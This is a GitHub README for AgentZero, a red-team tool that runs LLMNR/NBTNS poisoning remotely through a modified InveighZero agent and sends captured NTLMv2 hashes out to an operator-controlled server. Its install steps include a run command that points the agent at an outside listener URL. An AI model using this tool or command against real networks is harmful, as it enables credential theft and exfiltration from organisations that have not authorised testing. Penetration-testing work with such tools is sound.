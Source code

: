 # AgentZero
A client-server tool for remote LLMNR/NBTNS poisoning by Matt Kiely (HuskyHacks) and Aaron Hobdy.

## WARNING
This tool does not yet provide any encryption of data on the wire. **Do not use this to transmit captured authentication material outside of a private, internal network.** The dev team is not liable if you use this in a production environment and leak plain text authentication data out to the Internet.

This tool is also not currently built with security best practices in mind. There is no authentication mechanism for the main web server yet. Keep this in mind before hosting this tool on your network. **Never host this on an internet facing server.**

### Description
Inveigh is the work of Kevin Robertson and is one of the best tools available for poisoning LLMNR/NBTNS in a target network. Traditionally, tools like Responder.py have been used to respond to LLMNR/NBTNS and force the client to attempt an authentication to the responder server, which allows an attacker to capture the NTLMv2 hash of the client. However, this method has one big shortfall: the attacker must be present on the network where Responder is running, which is not always feasible. Inveigh and InveighZero have the interesting capability of being able to be run via PowerShell or as a reflective .NET assembly, respectively. This allows an operator to gain a foothold with a C2 agent, load Inveigh into their C2 agent's session, and use it to respond to LLMNR on the target network.

Recently, we found that we were running Inveigh as a .NET assembly through a C2 agent in order to recover NTLMv2 hashes remotely. This works great on platforms like Covenant and Cobalt Strike! Running Inveigh through a C2 agent means that an operator does not have to be present on the subnet where they want to recover NTLMv2 hashes. We wanted to make this process into a stand-alone client/server tool and hopefully define it as its own method of extracting authentication information. Thus, **AgentZero** was born.

**AgentZero** uses a modified version of the InveighZero source code to create an agent binary that can exfiltrate capture authentication messages from an internal network out to an operator-controlled server. This allows for remote LLMNR poisoning that can recover cryptographic authentication messages.  

### Quick Install Guide
Note: The process for setting up the client/server architecture for this tool is still in its early stages. Right now, the InveighZero agent must be compiled manually.

1. `sudo git clone https://github.com/HuskyHacks/AgentZero.git`
2. `cd AgentZero`
3. `sudo docker-compose up --build`
4. Compile the InveighZero-master binary that is packeged in the code.
5. Drop this binary to disk or run as an assembly with the `-EXFILURL` argument: `InveighZero.exe -EXFILRUL http://[ip]:1776/listener`
6. Wait for (or force) an LLMNR/NBTNS event
7. Captured hashes are stored in the dockerized DB.

### Roadmap
v.01
- [x] Python socket server that accepts input and writes to log file
- [x] InveighZero exe that sends captured NTLMv2 hash to server
- [x] Flask App
- [x] Stores in database

v.02
- [ ] Encoding/encrypting for exfil
  - [x] Base64 encoding
  - [ ] Asymmetrical Key exchange at compilation/agent check in
- [ ] Simple front-end login, set password on server at docker build
- [ ] Dynamically compile InveighZero with IP address and port
  - [x] Compilation function
  - [ ] Controlled from UI

future state
- [ ] Cool art for github page
- [ ] Multi-threaded, multi-agent handling
- [ ] Front end web client for multi-agent config/administration
- [ ] Dynamic generation for listener URL
- [ ] "Dashboard" for default view with DAG representation of agents 
- [ ] Shellcode gen for agent


## Acknowledgements
The dev team would like to thank Kevin Robertson for making an incredible program! Thanks also goes out to the devs of Covenant, Cobalt Strike, Empire, and all other C2s that we love.
